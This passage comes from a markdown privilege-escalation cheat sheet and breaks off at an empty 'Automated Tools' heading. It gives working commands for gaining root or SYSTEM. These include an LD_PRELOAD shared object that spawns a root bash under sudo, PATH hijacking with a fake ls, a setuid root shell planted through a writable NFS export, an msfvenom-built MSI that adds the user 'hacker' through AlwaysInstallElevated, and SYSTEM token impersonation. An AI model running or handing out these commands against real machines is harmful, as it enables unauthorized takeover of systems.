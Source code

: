 
## 8. Environment Variable Manipulation

### A. LD\_PRELOAD (Linux)

```bash
echo 'int main(){setuid(0);system("/bin/bash");}' > exploit.c  
gcc -fPIC -shared -o exploit.so exploit.c  
sudo LD_PRELOAD=./exploit.so <command>
```

### B. PATH Hijacking

```bash
echo "/bin/bash" > /tmp/ls  
chmod +x /tmp/ls  
export PATH=/tmp:$PATH
```

---

## 9. NFS Misconfigurations

```bash
showmount -e <target>  
mkdir /tmp/nfs  
mount -o rw <target>:/home/user /tmp/nfs  
echo 'int main(){setuid(0);system("/bin/bash");}' > /tmp/nfs/exploit.c  
gcc /tmp/nfs/exploit.c -o /tmp/nfs/exploit  
chmod +s /tmp/nfs/exploit
```

---

## 10. Windows-Specific Techniques

### A. AlwaysInstallElevated

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated  
msfvenom -p windows/adduser USER=hacker PASS=Passw0rd! -f msi > exploit.msi  
msiexec /quiet /qn /i exploit.msi
```

### B. Token Impersonation

```powershell
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
```

---

## 11. Automated Tools

